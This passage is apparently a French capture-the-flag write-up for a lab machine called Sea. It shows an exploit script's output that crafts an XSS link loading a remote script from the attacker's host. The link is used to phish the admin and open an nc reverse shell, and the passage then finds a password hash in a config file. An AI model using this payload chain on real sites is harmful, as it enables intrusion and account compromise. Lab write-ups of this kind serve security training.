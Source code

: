 ```
└─$ python3 test.py http://sea.htb/loginURL 10.10.16.8 4444
[+] xss.js is created
[+] execute the below command in another terminal

----------------------------
nc -lvp 4444
----------------------------

send the below link to admin:

----------------------------
http://sea.htb/index.php?page=loginURL?"></form><script+src="http://10.10.16.8:8000/xss.js"></script><form+action="
----------------------------


starting HTTP server to allow the access to xss.js
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.28 - - [26/Aug/2024 06:25:23] "GET /xss.js HTTP/1.1" 200 -
10.10.11.28 - - [26/Aug/2024 06:25:33] "GET /shell.zip HTTP/1.1" 200 -
10.10.11.28 - - [26/Aug/2024 06:25:33] "GET /shell.zip HTTP/1.1" 200 -
10.10.11.28 - - [26/Aug/2024 06:25:33] "GET /shell.zip HTTP/1.1" 200 -
10.10.11.28 - - [26/Aug/2024 06:25:34] "GET /shell.zip HTTP/1.1" 200 -

```
On met l'url qu'il nous fourni dans le champ **website** du formulaire de contacte afin de phish l'admin et nous voici avec un shell (enfin !!! Cela ma pris 2H !)
```
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 4444                           
listening on [any] 4444 ...

connect to [10.10.16.8] from (UNKNOWN) [10.10.11.28] 59104
Linux sea 5.4.0-190-generic #210-Ubuntu SMP Fri Jul 5 17:03:38 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 10:25:33 up 19 min,  1 user,  load average: 0.99, 0.93, 0.63
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
# Post-Exploitation
Dans le dossier **/var/www/sea/data** on retrouve un fichier **database.js** qui contient un hash:

```
    "config": {
        "siteTitle": "Sea",
        "theme": "bike",
        "defaultPage": "home",
        "login": "loginURL",
        "forceLogout": false,
        "forceHttps": false,
        "saveChangesPopup": false,
        "password": "$2y$10$iOrk210RQSAzNCx6............4jRIikYiWrD3TM\/PjDnXm4q",
        "lastLogins": {
            "2024\/08\/26 11:05:27": "127.0.0.1",
            "2024\/08\/26 11:01:56": "127.0.0.1",
            "2024\/08\/26 11:00:26": "127.0.0.1",
            "2024\/08\/26 10:57:56": "127.0.0.1",
            "2024\/08\/26 10:57:26": "127.0.0.1"
        },

```